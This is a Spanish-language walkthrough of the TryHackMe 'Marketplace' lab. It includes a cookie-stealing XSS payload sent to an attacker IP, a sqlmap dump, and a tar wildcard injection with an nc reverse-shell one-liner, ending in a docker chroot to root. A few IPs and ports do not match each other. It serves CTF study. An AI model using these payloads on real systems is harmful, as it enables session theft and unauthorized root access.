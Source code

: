 ```yaml
---
title: "Marketplace :$%__ Tryhackme 🤖"
date: 2023-09-06T02:01:58+05:30
description: "¿Puedes hacerte cargo de la infraestructura de The Marketplace? "
tags: [tryhackme, sqli, docker, web]
---
```



## Escaneo de puertos

Comencé con el escaneo de `nmap` para encontrar puertos

```bash
$ nmap -sC -sV -Pn 10.10.144.119

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

miramos el sitio web ya que tiene el puerto 80 disponible


{{< figure src="https://i.imgur.com/ipsPYs3.png">}}


En la barra de navegación encontré una página de inicio de sesión, probé algunas cargas útiles de inyección SQL allí pero no funcionaron, también probé sqlmap pero no obtuve resultados, luego fui a la página de registro para registrarme, ahora usando esas credenciales puedo iniciar sesión en el sitio web.

{{< figure src="https://i.imgur.com/0WpwGrs.png">}}

## XSS

En `/New listing` ahora podemos crear un nuevo listado. Como la sala tiene la etiqueta xss, pensé en usar una carga útil xss



{{< figure src="https://i.imgur.com/L1nqpH7.png">}}


`y tenemos un XSS`


## Cookie del administrador

```bash

<script>document.location='http://10.2.55.245:8000/XSS/grabber.php?c='+document.cookie</script>


```

Nos ponemos en escucha por el puerto 8000

```bash
$ nc -nvlp 8000
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 43900
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiY3liZXIiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTYwMzI1NTc3Mn0.XFgO3ci8vuX_vvcAOeRhducv_RFGgqttCvQuI2FwonE** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://10.10.144.119/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```


Para asegurarnos de que el administrador vea este listado, le enviaremos un informe mediante la opción "Informar listado a los administradores".

Después de informar, recibiremos la cookie del administrador. 


```bash

$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 33228
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Ahora editamos en el panel del navegador el token/cookie y tenemos acceso al administrador


al entrar al panel tenemos la primera `flag`

```
THM{c37************************c348d5}
```

## Sql injection

Pulsamos un usuario y accedemos a: /admin?user=1


```
/admin?user='

```

y recibimos un mensaje de error


{{< figure src="https://i.imgur.com/TEAilqy.png">}}


Usamos sqlmap obtener la db

```bash
$ sqlmap --dbms=mysql  -u 'http://10.10.144.119/admin?user=2' -p 'user' --cookie="token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg**" --delay=2 --dump  

```

Obtenemos de la tabla messages esto:

```
User Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ
,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
,Thank you for your report. We have been unable to review the list

```

Aquí tenemos una posible contraseña SSH `@b_ENXkGYUCAv3zJ`

Probamos con el user jake

```bash
$ ssh jake@10.10.144.119
The authenticity of host '10.10.38.49 (10.10.38.49)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.49' (ECDSA) to the list of known hosts.
jake@10.10.38.49's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
```

```bash
jake@the-marketplace:~$ cat user.txt

THM{c3648************************c0b4}

```

### Escalada de privilegios Michael

```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

Jake puede ejecutar /opt/backups/backup.sh como usuario michael

```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

```
Y encontré [esta increíble publicación](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) que explica cómo explotar el comodín en `tar` para escalar privilegios. 


```bash
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.55.245 1234 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1

```

Ejecutamos el script

```bash
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory

```

Previamente nos colocamos en escucha en nuestra maquina local

```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 36678
id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)

```
Estamos en el grupo `Docker`, buscamos en [GTFO Bins](https://gtfobins.github.io/gtfobins/docker/?ref=infosecarticles.com) y somos usuario root

```bash
python -c'import pty;pty.spawn("/bin/bash")'
michael@the-marketplace:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
.
.
.
# cat root.txt
cat root.txt
THM{d17dfe53g9*********}
#


```


